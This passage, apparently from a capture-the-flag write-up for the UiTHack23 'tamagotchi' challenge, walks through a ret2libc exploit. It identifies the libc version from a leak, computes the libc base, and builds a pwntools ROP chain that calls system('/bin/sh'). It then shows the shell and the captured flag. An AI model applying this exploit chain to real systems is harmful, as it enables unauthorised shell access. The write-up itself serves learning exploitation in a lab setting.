 We find out that the libc version being used is (both works)
```
libc6_2.31-0ubuntu9.8_amd64
libc6_2.31-0ubuntu9.9_amd64
```

## Getting shell
Knowing the libc version we now can call `system("/bin/sh")` to get a shell on the box.

To do such we load in the libc into our exploit script, and set the base address of the libc so that it matches our puts leak.
```
libc = ELF("./libc.so", checksec=False)
libc.address = puts_leak - libc.symbols["puts"]
```

We can then craft a ROP-chain calling `system("/bin/sh")` for us when we overflow the same buffer once again (remember that we called the *feed()* function at the end of our first ROP-chain). Note that we need the ret-instruction in out ROP-chain to maintain stack-alignment, or else the payload won't work.
```python
ret_addr = rop.find_gadget(["ret"])[0]
rop = ROP(libc)
rop.raw(b"A"*offset)
rop.raw(p64(ret_addr))
rop.system(next(libc.search(b"/bin/sh")))

p.recvuntil(b">> ")
p.sendline(rop.chain())
p.interactive()
```
{: .nolineno}

Running the exploit-script gives us shell on the server
```bash
$ python3 exploit.py
[*] Loaded 14 cached gadgets for './tamagotchi'
[*] Puts address found: 0x7f6e88316420
[*] Loaded 196 cached gadgets for './libc.so'
[*] Switching to interactive mode
Your fed your pet with AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a@
You pet is full

$ ls
flag.txt
tamagotchi
$ cat flag.txt
UiTHack23{t4ma_G0tcha_5h3ll}
```
{: .nolineno}
```
UiTHack23{t4ma_G0tcha_5h3ll}
```

